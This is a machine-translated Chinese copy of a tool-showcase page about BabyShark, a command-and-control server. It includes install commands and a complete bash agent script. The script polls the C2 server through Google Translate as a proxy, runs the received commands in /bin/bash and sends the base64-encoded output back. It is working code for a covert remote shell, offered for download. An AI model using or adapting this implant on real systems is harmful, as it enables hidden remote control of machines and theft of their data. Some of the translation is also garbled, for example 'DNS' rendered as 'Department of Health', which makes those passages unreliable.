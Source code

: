 # BabyShark:基本 C2 服务器 2020

> 原文：<https://kalilinuxtutorials.com/babyshark/>

[![BabyShark : Basic C2 Server 2020](img//13fb038b12f88432cd1af88fe3dbf62d.png "BabyShark : Basic C2 Server 2020")](https://1.bp.blogspot.com/-mNnTBmp0_z8/Xut9P43X-eI/AAAAAAAAGpg/gE1Ih5jeFt0Uf0k-6PSaYyh1ykNMkb4OQCLcBGAsYHQ/s1600/BabyShark%25281%2529.png)

BabyShark 是一个用 Python 和 Flask 编写的基本 C2 通用服务器。

这段代码基于 [GTRS](https://github.com/mthbernardes/GTRS) 的思想，它使用[谷歌翻译](https://translate.google.com)作为代理向被感染的主机发送命令。BabyShark 项目旨在集中代理的反向连接，创建一种将几种类型的连接集中在一个地方的方法。

BabyShark 不生成感染代理，但它提供了一个模板来连接它。

**安装**

**git 克隆 https://github.com/danilovazb/BabyShark/
CD baby shark
mkdir 数据库
sqlite3 数据库/c2.db < schema.sql**

**也可阅读-[ANDRAX:NH-Android 上的黑仔渗透测试](https://kalilinuxtutorials.com/andrax/)**

**代理模型**

**GTRS**–【https://github.com/mthbernardes/GTRS 

GTRS 中用于连接到 BabyShark 的客户端示例:

```
#!/bin/bash

if [[ $# < 2 ]];then
    echo -e "Error\nExecute: $0 www.c2server.com secretkey-provided-by-the-server\n"
    exit
fi

running=true
secretkey="b4bysh4rk"
user_agent="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36"
data="Content-Hype: "
c2server="http://babyshark/momyshark?key=$secretkey"
result=""
input="/tmp/input"
output="/tmp/output"

function namedpipe(){
  rm "$input" "$output"
  mkfifo "$input"
  tail -f "$input" | /bin/bash 2>&1 > $output &
}

function getfirsturl(){
  url="https://translate.google.com/translate?&anno=2&u=$c2server"
  first=$(curl --silent "$url" -H "$user_agent" | xmllint --html --xpath '//iframe/@src' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g' )
} 

function getsecondurl(){
  second=$(curl --silent -L "$first" -H "$user_agent"  | xmllint --html --xpath '//a/@href' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g')
}

function getcommand(){
  if [[ "$result" ]];then  
    command=$(curl --silent $second -H "$result" )
  else
    command=$(curl --silent $second -H "$user_agent" )

    command1=$(echo "$command" | xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null)
    command2=$(echo "$command" | xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null )
    if [[ "$command1" ]];then
      command="$command1"
    else
      command="$command2"
    fi
  fi
}

function talktotranslate(){
  getfirsturl
  getsecondurl
  getcommand
}

function main(){
  result=""
  sleep 10
  talktotranslate
  if [[ "$command" ]];then
    if [[ "$command" == "exit" ]];then
      running=false 
    fi
    echo $command
    echo -n > $output
    idcommand=$(echo $command | cut -d '#' -f2)
    echo "$command" > "$input"
    sleep 2
    outputb64=$(cat $output | tr -d '\000'  | base64 | tr -d '\n'  2>/dev/null)
    if [[ "$outputb64" ]];then
      result="$user_agent | $outputb64 | $idcommand "
      talktotranslate
    fi
  fi
}

namedpipe
while "$running";do
  main
done
```

**接下来的步骤**

*   SSH 反向
*   域名服务器(Domain Name Server)
*   卫生部(Department of Health)
*   HTTPS
*   HTTP3
*   网间控制报文协议(Internet Control Messages Protocol)
*   QUIC

[**Download**](https://github.com/UnkL4b/BabyShark)